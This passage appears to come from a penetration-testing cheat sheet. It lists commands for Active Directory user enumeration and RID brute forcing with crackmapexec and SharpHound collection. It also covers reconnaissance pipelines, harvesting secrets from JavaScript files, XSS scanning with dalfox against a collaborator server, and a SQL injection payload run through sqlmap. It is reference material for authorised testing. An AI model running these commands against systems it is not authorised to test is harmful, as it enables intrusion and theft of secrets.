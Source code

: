     :- Enumerate logged-in users
    crackmapexec smb targets.txt --lusers
    
    :- Brute force RIDs to find users
    crackmapexec smb targets.txt -M rid_brute

### BloodHound Data Collection    
    :- Collect AD data using SharpHound collector
    SharpHound.exe -c All -d yourdomain.local --zipfilename data.zip 
    (Upload data.zip to BloodHound GUI for analysis)

## AUTOMATION SNIPPETS & WORKFLOW EXAMPLES

### Bash loop to run nuclei on subdomains found by subfinder    
    subfinder -d target.com -silent | nuclei -t ~/nuclei-templates/exposures/ -c 50 -o nuclei_exposure_results.txt

### Bash loop for directory brute-forcing multiple hosts    
    while read host; do ffuf -w wordlist.txt -u "$host/FUZZ" -mc 200 -o "ffuf_$(basename $host).txt"; done < live_hosts.txt

### Find JS files, then extract secrets    
    subfinder -d target.com -silent | httpx -silent | subjs -c 10 | while read url; do secretfinder -i "$url" -o "secrets_$(basename $url).json"; done

### Combine passive and active enum, resolve, check live hosts, and screenshot    
    { subfinder -d target.com -silent; amass enum -passive -d target.com -silent; } | sort -u > subs.txt
    puredns resolve subs.txt -r resolvers.txt | httpx -silent -status-code -o live.txt
    gowitness file -f live.txt -P screenshots/ --threads 10

### Filter URLs for potential XSS using gf and test with dalfox    
    cat all_urls.txt | gf xss | dalfox pipe -b your.collab.server -o dalfox_xss_results.txt

## REPORTING & DOCUMENTATION AIDS

### Markdown Notes (Keep findings organized)    
    echo "#### Vulnerability: SQL Injection" >> report.md    
    echo "**URL:** https://vuln.target.com/product?id=1" >> report.md
    echo "**Parameter:** id" >> report.md
    echo "**Payload:** \`1' OR '1'='1 -- \`" >> report.md
    echo "**Evidence:**" >> report.md
    echo '```sqlmap output...' >> report.md
    sqlmap -u "[https://vuln.target.com/product?id=1](https://vuln.target.com/product?id=1)" --batch --banner >> report.md
    echo '```' >> report.md
